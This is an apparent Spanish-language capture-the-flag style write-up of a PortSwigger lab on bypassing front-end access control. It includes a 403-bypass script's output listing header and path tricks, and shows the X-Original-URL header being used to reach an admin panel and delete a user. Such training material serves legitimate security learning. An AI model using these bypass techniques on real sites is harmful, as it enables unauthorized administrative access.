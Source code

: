 ```yaml
---
title: Access Control Vulnerabilities Lab 10
date: 2024-12-05 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Access Control Vulnerabilities
tags:
  - Access Control Vulnerabilities
  - URL-based access control can be circumvented
image:
  path: /assets/img/Access-Control-Vulnerabilities-Lab-10/Portswigger.png
---
```


## Skills

- URL-based access control can be circumvented

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `sitio web` tiene un `panel de administración` no autenticado en `/admin`, pero se ha configurado un sistema de `front-end` para bloquear el acceso externo a esa ruta. Sin embargo, la `aplicación de back-end` está construida sobre un `framework` que soporta el encabezado `X-Original-URL`. Para `resolver` el laboratorio, debemos `acceder` al `panel de administración` y `eliminar` al `usuario carlos`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Access-Control-Vulnerabilities-Lab-10/image_1.png)

Si pulsamos en `Admin panel` no nos deja acceder y nos muestra un código de estado `403 Access Denied`. Existe una herramienta llamada `bypas-403` [https://github.com/v0rl0x/bypass-403-updated.git](https://github.com/v0rl0x/bypass-403-updated.git), la cual mediante diferentes `headers` intenta `bypassear` este código de estado. Podemos encontrar `payloads` y otras herramientas en `Hacktricks` [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses). Es importante probar con `/admin` y con `admin` debido a que hay varias cabeceras que necesitan una ruta

```
# ./bypass-403.sh https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net /admin
 ____                                  _  _    ___ _____ 
| __ ) _   _ _ __   __ _ ___ ___      | || |  / _ \___ / 
|  _ \| | | | '_ \ / _` / __/ __|_____| || |_| | | ||_ \ 
| |_) | |_| | |_) | (_| \__ \__ \_____|__   _| |_| |__) |
|____/ \__, | .__/ \__,_|___/___/        |_|  \___/____/ 
       |___/|_|                                          
                                               By Iam_J0ker
./bypass-403.sh https://example.com path
 
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net/%2e//admin
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin/.
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net///admin//
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net/.//admin/./
200,3114  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Original-URL: /admin
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Custom-IP-Authorization: 127.0.0.1
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Forwarded-For: http://127.0.0.1
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Forwarded-For: 127.0.0.1:80
200,10707  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net -H X-re
write-url: /admin
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin%20
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin%09
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin?
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin.html
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin/?anything
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin#
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H Content-Length:0 -X POST
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin/*
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin.php
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin.json
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin  -X TRACE
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Host: 127.0.0.1
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin..;/
000,0  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin;/
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -X TRACE
404,11  --> https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net//admin -H X-Forwarded-Host: 127.0.0.1
Way back machine:
{
  "available": null,
  "url": null
}
```

Si `capturamos` la `petición` y aplicamos la cabecera `X-Original-Url: /admin`

![](/assets/img/Access-Control-Vulnerabilities-Lab-10/image_2.png)

Hacemos click derecho, pulsamos sobre `Show response in browser` y accedemos a un panel administrativo

![](/assets/img/Access-Control-Vulnerabilities-Lab-10/image_3.png)

Si intentamos `eliminar` a un `usuario` no nos dejará y nos `redirigirá` a `https://0a2a003604de8f1180f0ade5008900ae.web-security-academy.net/admin/delete?username=carlos`. Debemos realizar la `petición` de esta forma para poder `eliminar` al usuario `carlos`

![](/assets/img/Access-Control-Vulnerabilities-Lab-10/image_4.png)

